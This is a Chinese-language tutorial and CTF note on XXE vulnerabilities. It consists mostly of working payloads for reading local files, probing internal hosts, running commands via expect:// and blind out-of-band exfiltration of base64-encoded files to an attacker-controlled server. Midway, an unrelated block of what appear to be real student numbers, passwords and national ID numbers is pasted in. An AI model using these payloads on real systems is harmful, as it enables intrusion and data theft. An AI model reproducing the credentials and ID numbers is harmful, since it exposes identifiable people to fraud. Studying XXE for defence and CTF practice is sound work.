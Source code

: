 #### 前言

[![bGuFln.png](https://s4.ax1x.com/2022/03/02/bGuFln.png)](https://imgtu.com/i/bGuFln)

xxe漏洞在我为期不长的挖洞生涯中也没有遇到过，所以就想着总结一下，撰写此文以作为记录，加深自己对xxe漏洞的认识，实验靶场是xxe-lab和[[NCTF2019]Fake XML cookbook](https://buuoj.cn/challenges#[NCTF2019]Fake%20XML%20cookbook)这题。

#### 基本介绍

XML文档结构包括XML声明、DTD文档类型定义（可选）、文档元素

对内声明

```xml
<!DOCTYPE note [
  <!ELEMENT note (to,from,heading,body)>
  <!ELEMENT to      (#PCDATA)>
  <!ELEMENT from    (#PCDATA)>
  <!ELEMENT heading (#PCDATA)>
  <!ELEMENT body    (#PCDATA)>
]>
```

对外声明

```xml
<!DOCTYPE note SYSTEM "note.dtd">

<!ELEMENT note (to,from,heading,body)>
<!ELEMENT to (#PCDATA)>
<!ELEMENT from (#PCDATA)>
<!ELEMENT heading (#PCDATA)>
<!ELEMENT body (#PCDATA)>
```

一般实体：<!ENTITY 实体名称 "实体的值">

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer "Bill Gates">
<!ENTITY copyright "Copyright W3School.com.cn">
]>

```

参数实体：<!ENTITY 实体名称 SYSTEM "URI">

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY writer SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
<!ENTITY copyright SYSTEM "http://www.w3school.com.cn/dtd/entities.dtd">
]>
<author>&writer;&copyright;</author>
```

这里SYSTEM后面的url分为以下几种方式，利用协议攻击

协议如下：

![](https://z3.ax1x.com/2021/10/11/5Z4XSP.png)

![PHP其他协议](https://z3.ax1x.com/2021/10/11/5Zq3UU.png)

基本可以达到和SSRF一样的效果，探测内网端口(http/https)，DDOS，读取任意文件(file)，命令执行(expect)等

![](https://s4.ax1x.com/2021/12/28/Tr08EQ.png)

##### 读文件

```
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "file:///c:/windows/win.ini">
]>
<x>&xxe;</x>
```



##### 内网探针或攻击内网应用

```
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [
<!ELEMENT foo ANY >
<!ENTITY rabbit SYSTEM "http://3z5vcc.dnslog.cn" >
]>
<x>&rabbit;</x>
```



##### RCE

```
该 CASE 是在安装 expect 扩展的 PHP 环境里执行系统命令
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "expect://whoami" >
]>
<x>&xxe;</x>
```



##### 引入外部实体 dtd

```
<?xml version="1.0" ?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "http://127.0.0.1:8081/evil2.dtd">
%file;
]>
<x>&send;</x>
evil2.dtd:
<!ENTITY send SYSTEM "file:///d:/test.txt">
```





~~~
2019214324
A@2019gaokao
530381200111243510


2019214323
01090014
360313200101090014


1000002379
08290617
232125197208290617

王涵
2020222859
08230129
231121200208230129

示波器和长度测量
~~~

伪协议

~~~
<?xml version = "1.0"?>
<!DOCTYPE ANY [
<!ENTITY xxe SYSTEM "php://filter/read=convert.base64-encode/resource=c:/windows/win.ini">
]>
<x>&xxe;</x>
~~~







##### 无回显-读取文件

```
<?xml version="1.0"?>
<!DOCTYPE test [
<!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=test.txt">
<!ENTITY % dtd SYSTEM "http://192.168.0.103:8081/test.dtd">
%dtd;
%send;
]>
test.dtd：
<!ENTITY % payload
"<!ENTITY &#x25; send SYSTEM 'http://192.168.0.103:8081/?data=%file;'>"
>
%payload;
```

##### 协议-读文件（绕过）

```xml
<?xml version = "1.0"?>
<!DOCTYPE ANY [ <!ENTITY f SYSTEM "php://filter/read=convert.base64-encode/resource=xxe.php"> ]>
<x>&f;</x>
```

##### [XXEinjector](https://www.cnblogs.com/bmjoker/p/9614990.html)

具体参数自查

##### CTF

###### 读靶机文件

```
<?xml version="1.0" encoding="UTF-8" ?>
<!DOCTYPE foo [ 
<!ENTITY rabbit SYSTEM "file:///flag" >
]>
<user><username>&rabbit;</username><password>123</password></user>
```



###### 恶意引入外部参数实体

```
<?xml version="1.0" ?>
<!DOCTYPE test [
    <!ENTITY % file SYSTEM "http://vps-ip/hack.dtd">
    %file;
]>
<test>&hhh;</test>
```



```
<!ENTITY hhh SYSTEM 'file:///etc/passwd'>
```

##### 无回显

###### OOB

先使用php://filter获取目标文件的内容，然后将内容以http请求发送到接受数据的服务器(攻击服务器)xxx.xxx.xxx。

```
<!DOCTYPE updateProfile [
    <!ENTITY % file SYSTEM "php://filter/read=convert.base64-encode/resource=./target.php">
    <!ENTITY % dtd SYSTEM "http://xxx.xxx.xxx/evil.dtd">
    %dtd;
    %send;
]>
```

evil.dtd的内容，内部的%号要进行实体编码成&#x25。

**`<!ENTITY % all    "<!ENTITY &#x25; send SYSTEM 'http://xxx.xxx.xxx/?data=%file;'>">%all;`

访问接受数据的服务器中的日志信息，可以看到经过base64编码过的数据，解码后便可以得到数据。